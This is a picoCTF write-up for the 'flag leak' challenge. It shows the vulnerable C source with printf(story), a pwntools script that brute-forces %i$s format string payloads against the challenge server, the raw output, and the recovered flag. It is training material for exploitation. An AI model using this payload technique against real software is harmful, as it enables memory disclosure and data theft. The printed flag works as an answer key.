 # flag leak

In this challenge from [picoCTF](https://play.picoctf.org/practice/challenge/269) we need exploit a format string vulnerability in order to leak data from the stack.

Looking at the source code we can see that the flag is load into the stack before  the vulnerable call to `printf(story);`:

```c
void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

We can exploit it using `%s` wich can leak memory content by interpreting a stack or memory address as a string pointer.

I just created a bruteforce script, even tho it is a terrible approach it is easy and it works.

# Solve.py

```py
from pwn import *

def test_payload(i):
    r = remote("saturn.picoctf.net", 51076)
    r.sendline(f"%{i}$s".encode())
    return r.recvall()

i = 0
context.log_level = 'error'

while True:
    res = test_payload(i)
    if b"pico" in res or b"}" in res:
        print(res)
    i += 1
```

The script gave me this output:

```
❯ python3 solve.py
b"Tell me a story and then I'll tell you one >> Here's a story - \nCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}\n"
b"Tell me a story and then I'll tell you one >> Here's a story - \n\x87(\xad\xfbg}\x8a\xecg}\x8a\xecg}\x8a\xecg}\x8a\xecg}\x8a\xecg}\x8a\xecg}\x8a\xech}\x8a\xec\n"
b"Tell me a story and then I'll tell you one >> Here's a story - \nl}\x1e\n"
b"Tell me a story and then I'll tell you one >> Here's a story - \nl}\x1e\n"
b"Tell me a story and then I'll tell you one >> Here's a story - \nl}\x1e\n"
b"Tell me a story and then I'll tell you one >> Here's a story - \nl}\x1e\n"
b"Tell me a story and then I'll tell you one >> Here's a story - \nl}\x1e\n"
b"Tell me a story and then I'll tell you one >> Here's a story - \n\x10\xbf\x04\x08\x909\xe2\xf2\xc0\xda\xe0\xf20\xed\xc4\xf2\xb0\xa3\xc6\xf2@}\xcc\xf2\xe0\xc1\xc6\xf2\x80\x90\x04\x08\xe0\x9d\xc1\xf2\xc0\xc9\xc6\xf2p\xa6\xc6\xf2\xc0\x90\x04\x08\xd0\xfd\xc4\xf2\xa0\x81\xcc\xf2\n"
b"Tell me a story and then I'll tell you one >> Here's a story - \nFLAG=picoCTF{L34k1ng_Fl4g_0ff_St4ck_\n"
^C
```

And I could retrieve the flag combining the first and last line.